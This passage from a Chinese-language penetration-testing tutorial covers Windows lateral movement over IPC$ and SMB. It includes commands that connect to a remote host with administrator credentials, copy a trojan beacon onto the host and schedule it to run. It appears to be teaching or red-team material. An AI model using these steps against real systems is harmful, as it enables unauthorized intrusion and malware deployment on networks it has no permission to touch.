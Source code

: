 # 内网横向移动

# 横向移动间的文件传输

## IPC横向移动

`Windows`系统中的网络共享功能可以实现局域网之间的文件共享，通过提供有效的用户凭据，用户可以轻松地将文件从一台主机传输到另一台主机。

命令`net share`可以获得`Windows`系统默认开启的网络共享，其中`C$`为`C`盘共享，`ADMIN$`为系统目录共享，另外还有一个便是`IPC$`共享。

`IPC`（`Internet Process Connection`）是共享“命名管道”的资源，为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通信并以此通道进行加密数据的交换，从而实现对远程计算机的访问。
在实战中，攻击者往往会建立`IPC$`连接，通过`IPC$`连接，不仅可以进行所有文件共享操作，还可以实现其他远程管理操作，如列出远程主机进程、在远程主机上创建计划任务或系统服务等。

建立`IPC$`连接需要具备以下两个条件：

- 知道目标机的账户密码；
- 远程主机开启了`IPC`连接；
- 远程主机的`139`端口和`445`端口是开放的。

命令：

```powershell
# 建立IPC连接
# net use \\<IP/Hostname>\IPC$ <Password> /user:"Username"
net use \\10.10.10.137\IPC$ "H3rmesk1t@2023" /user:"Administrator"

# 断开IPC连接
# net use \\<IP/Hostname>\ipc$ /del
net use \\10.10.10.137\IPC$ /del

# 查看是否建立连接
net use

# 执行命令, 列出远程主机的C盘Administrator用户共享目录
dir \\10.10.10.137\C$\Users\Administrator\

# 拷贝木马
copy beacon.exe \\10.10.10.137\C$

# 创建计划任务(at<2012, schtasks>=2012)
at \\10.10.10.137 00:00 C:\beacon.exe
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled.png)

## 搭建SMB服务器

`SMB`（`Server Message Block`，服务器消息块），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。`SMB`消息一般使用`NetBIOS`协议或`TCP`发送，分别使用端口`139`和`445`（主要）。
